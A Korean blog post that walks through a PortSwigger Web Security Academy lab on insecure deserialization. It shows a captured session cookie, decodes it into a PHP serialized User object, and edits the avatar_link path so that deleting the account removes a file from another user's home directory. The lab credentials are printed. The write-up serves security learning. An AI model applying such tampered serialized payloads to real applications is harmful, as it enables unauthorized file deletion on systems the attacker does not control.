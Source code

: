 ```yaml
---
layout: post
title: "Burp Academy-안전하지 않은 역직렬화(Insecure Deserialization) 관련 취약점: Using application functionality to exploit insecure deserialization"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Insecure Deserialization]
toc: true
last_modified_at: 2024-05-16 21:00:00 +0900
---
```



# 개요
- 안전하지 않은 역직렬화(Insecure Deserialization) 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization
- 취약점 설명페이지: https://portswigger.net/web-security/deserialization/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요: 어플리케이션의 기능을 이용하기(Using application functionality)
- 어플리케션의 기능에서도 역직렬화 취약점이 있을 수 있다. 
- 예를들어 유저를 삭제하는 기능에서 , 유저의 프로파일 이미지 삭제기능이 있을 수 있는데, 프로파일 이미지 경로를 외부에서 공격자가 지정할 수 있으면 취약점이 될 수 있다.
- 이런 경우는 공격자가 의도적으로 위험한 메서드(유저의 프로파일 이미지 삭제 메서드)를 호출하는 경우다. 그런데 역직렬화 과정에서 자동으로 호출되는 메서드도 있다. 이 것을 `Magic method`라고 부른다. 

# 문제 개요
- 이 랩은 직렬화 베이스의 세션 관리 메커니즘을 사용하고 있다. 
- 어떤 기능은 직렬화된 오브젝트의 데이터로부터 위험한 메서드를 호출한다. 
- 랩을 풀려면 세션 쿠키 안에 있는 직렬화 오브젝트를 수정해서 Carlos유저의 홈 디렉토리에서 Morale.txt파일을 삭제한다. 
- wiener:peter 크레덴셜로 로그인할 수 있다. 
- 또한 백업 계정(gregg:rosebud)에도 액세스할 수 있다. 

```
This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud
```

# 도전
1. 주어진 크레덴셜로 로그인해보면 이 사이트에는 프로필 이미지 업로드 기능이 있는 것을 알 수 있다. 

![](/images/burp-academy-serial-3-1.png)

2. 프로필 이미지를 등록해본다. 등록시에는 `POST /my-account/avatar` 엔드포인로, `Content-Type: multipart/form-data;` 컨텐트 타입의 요청이 전송된다. 

![](/images/burp-academy-serial-3-2.png)

3. 유저를 삭제해본다. Delete account 버튼을 눌러본다. 


다음과 같은 HTTP 요청이 전송되는 것을 볼 수 있다. 

```http
POST /my-account/delete HTTP/2
Host: 0af10084045a60ca82f0108300a90012.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJibzBhOGZ5dHpkYjFwdjg2eGx6OXFvMWd5OTU4YzdqaSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
Content-Length: 0
...

```

4. 세션 쿠키의 값을 Base64 디코딩해서 확인해본다. 

![](/images/burp-academy-serial-3-3.png)


그러면 세션 쿠키의 내용물이 다음과 같은 것을 알 수 있다. `avatar_link`라는 키에 파일 경로 `users/wiener/avatar` 가 값으로 들어가 있는 것을 알 수 있다. 

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bo0a8fytzdb1pv86xlz9qo1gy958c7ji";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

5. 경로를 수정해본다. `users/carlos/Morale.txt` 로 변경한다. 문자열 길이는 19에서 23으로 변경한다. 

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bo0a8fytzdb1pv86xlz9qo1gy958c7ji";s:11:"avatar_link";s:23:"users/carlos/Morale.txt";}
```

6. 수정한 세션토큰 값을 Base64 인코딩해서 보내본다. 그러면 302응답은 돌아오지만 아무 일도 일어나지 않는 것을 알 수 있다. 세션토큰에 지정되어 있는 wiener 계정이 이미 삭제된 상태여서 그런 것으로 보인다. 문제에서 주어진 백업 어카운트로 로그인한 뒤 해당 어카운트의 세션토큰으로 다시 시도해본다. 

![](/images/burp-academy-serial-3-4.png)

7. 그런데 다시 시도해도 302응답은 돌아왔지만 아무 일도 일어나지 않는다. 살짝 답을 본다. 아하..! 경로를 `/home/carlos/morale.txt` 로 해야했다. 

8. 다시 해본다. 풀이에 성공했다는 메세지가 표시되었다. 

![](/images/burp-academy-serial-3-success.png)